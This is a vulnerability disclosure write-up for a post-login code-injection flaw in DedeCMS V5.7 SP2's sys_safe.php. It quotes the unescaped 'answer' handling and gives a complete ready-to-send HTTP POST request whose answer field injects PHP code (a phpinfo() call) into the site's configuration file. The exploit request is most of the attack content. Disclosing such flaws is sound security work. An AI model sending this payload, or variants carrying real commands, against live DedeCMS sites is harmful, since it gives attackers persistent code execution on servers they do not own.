 # Vulnerability Info
## Vulnerability Type
Dedecms background getshell
## Vulnerability Version
V5.7 SP2
## Recurring environment
Windows 10* PHP 5.4.5* Apache 2.4.23
## Author
pang0lin@webray.com.cn inc.
#Vulnerability Description AND recurrence:
The security issue is occured at file /dede/sys_safe.php.
```
    //保存问答数组
    $faqs = array();
    for ($i = 1; $i <= count($question)-1; $i++) 
    {
        $val = trim($question[$i]);
        if($val)
        {
            $faqs[$i]['question'] = str_replace("'","\"",stripslashes($val));
            $faqs[$i]['answer'] = stripslashes(trim($answer[$i]));
        }
    }
    
    //print_r($question);exit();
    $configstr .= "\$safe_faqs = '".serialize($faqs)."';\r\n";
    $configstr = "<"."?php\r\n".$configstr."?".">\r\n";
    
    $fp = fopen($safeconfigfile, "w") or die("写入文件 $safeconfigfile 失败，请检查权限！");
    fwrite($fp, $configstr);
    fclose($fp);
    ShowMsg("修改配置成功！","sys_safe.php");
    exit;
```
It is very strange that the param $faqs[$i]['question'] is escape,but the param $faqs[$i]['answer'] not. Mybe the author forget to do it.
```
$faqs[$i]['question'] = str_replace("'","\"",stripslashes($val));
$faqs[$i]['answer'] = stripslashes(trim($answer[$i]));
```
How to use it? First, we need to login in and request it like blow.
```
POST /uploads/dede/sys_safe.php HTTP/1.1
Host: test.com
Content-Length: 903
Cache-Control: max-age=0
Origin: http://test.com
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://test.com/uploads/dede/sys_safe.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=b0skm3otr4mnf5757cqf36dri6; _csrf_name_ee43b998=f32d4d51d1e76e63fab9b13ba098da00; _csrf_name_ee43b998__ckMd5=742220487726259e; DedeUserID=1; DedeUserID__ckMd5=28220f93251d463f; DedeLoginTime=1577369105; DedeLoginTime__ckMd5=72b229209e37a095
Connection: close

dopost=save&gdopen%5B%5D=1&gdopen%5B%5D=2&gdopen%5B%5D=3&gdopen%5B%5D=4&gdopen%5B%5D=5&gdopen%5B%5D=6&gdopen%5B%5D=7&codetype=3&gdtype=1&gdstyle%5B%5D=3&gd_wwidth=68&gd_wheight=24&codelen=4&question%5B%5D=&answer%5B%5D=&question%5B%5D=%E6%82%A8%E6%9C%80%E5%96%9C%E6%AC%A2%E7%9A%84%E7%BD%91%E5%BB%BA%E7%A8%8B%E5%BA%8F%E6%98%AF%E4%BB%80%E4%B9%88%3F&answer%5B%5D=DedeCMS';phpinfo();//aasssss&question%5B%5D=1%2B11%3D%3F&answer%5B%5D=12&question%5B%5D=%E4%B8%AD%E5%9B%BD%E5%93%AA%E9%A1%B9%E4%BD%93%E8%82%B2%E8%BF%90%E5%8A%A8%E6%9C%80%E8%AE%A9%E4%BA%BA%E5%90%AC%E7%9D%80%E4%BC%A4%E5%BF%83%2C%E7%9C%8B%E7%9D%80%E6%8F%AA%E5%BF%83%3F&answer%5B%5D=%E8%B6%B3%E7%90%83&question%5B%5D=%3Cimg+src%3D%22%2Fimages%2Fdede.gif%22%2F%3E&answer%5B%5D=%E7%BB%87%E6%A2%A6%E5%86%85%E5%AE%B9%E7%AE%A1%E7%90%86%E7%B3%BB%E7%BB%9F&question%5B%5D=&answer%5B%5D=&gdfaq_reg=0&gdfaq_send=0&gdfaq_msg=1&imageField.x=43&imageField.y=13
```
And Then wen can see phpinfo page anywhere.
![blockchain](https://github.com/pang0lin/CVEproject/blob/main/imgs/dedecms_background_rce.png "Dedecms background getshell")
